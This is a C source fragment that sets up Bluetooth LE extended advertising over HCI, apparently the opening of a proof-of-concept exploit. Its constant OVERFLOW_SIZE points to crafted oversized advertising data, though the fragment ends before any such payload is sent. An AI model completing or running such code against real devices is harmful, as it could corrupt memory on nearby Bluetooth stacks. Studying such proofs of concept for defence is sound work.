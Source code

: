 ```c
#define OCF_LE_SET_EXTENDED_SCAN_RESPONSE_DATA	0x2038
typedef struct {
	uint8_t  handle;
	uint8_t  operation;
	uint8_t  fragment_preference;
	uint8_t  data_len;
	uint8_t  data[0];
} __attribute__ ((packed)) le_set_extended_scan_response_data_cp;
#define LE_SET_EXTENDED_SCAN_RESPONSE_DATA_CP_SIZE 4

#define OCF_LE_SET_EXTENDED_ADVERTISE_ENABLE		0x2039
typedef struct {
	uint8_t  enable;
	uint8_t  num_of_sets;
} __attribute__ ((packed)) le_set_extended_advertise_enable_cp;
#define LE_SET_EXTENDED_ADVERTISE_ENABLE_CP_SIZE 2

typedef struct {
	uint8_t  handle;
	uint16_t duration;
	uint8_t  max_events;
} __attribute__ ((packed)) le_extended_advertising_set;
#define LE_SET_EXTENDED_ADVERTISING_SET_SIZE 4

#define OVERFLOW_SIZE 0xe5

int main(int argc, char **argv) {
  struct hci_request rq;
  uint8_t status;
  char buf[0x100];

  printf("[*] Resetting hci0 device...\n");
  system("sudo hciconfig hci0 down");
  system("sudo hciconfig hci0 up");

  printf("[*] Opening hci device...\n");
  struct hci_dev_info di;
  int hci_device_id = hci_get_route(NULL);
  int hci_socket = hci_open_dev(hci_device_id);
  if (hci_devinfo(hci_device_id, &di) < 0) {
    perror("hci_devinfo");
    return 1;
  }

  le_set_extended_advertising_parameters_cp params;
  memset(&params, 0, LE_SET_EXTENDED_ADVERTISING_PARAMETERS_CP_SIZE);
  params.handle = 0;
  params.evt_properties = 1;
  params.min_interval[1] = 0x8;
  params.max_interval[1] = 0x8;
  params.channel_map = 7;
  params.tx_power = 0x7f;
  params.primary_phy = 1;
  params.secondary_phy = 1;

  memset(&rq, 0, sizeof(rq));
  rq.ogf = OGF_LE_CTL;
  rq.ocf = OCF_LE_SET_EXTENDED_ADVERTISING_PARAMETERS;
  rq.cparam = &params;
  rq.clen = LE_SET_EXTENDED_ADVERTISING_PARAMETERS_CP_SIZE;
  rq.rparam = &status;
  rq.rlen = sizeof(status);

```
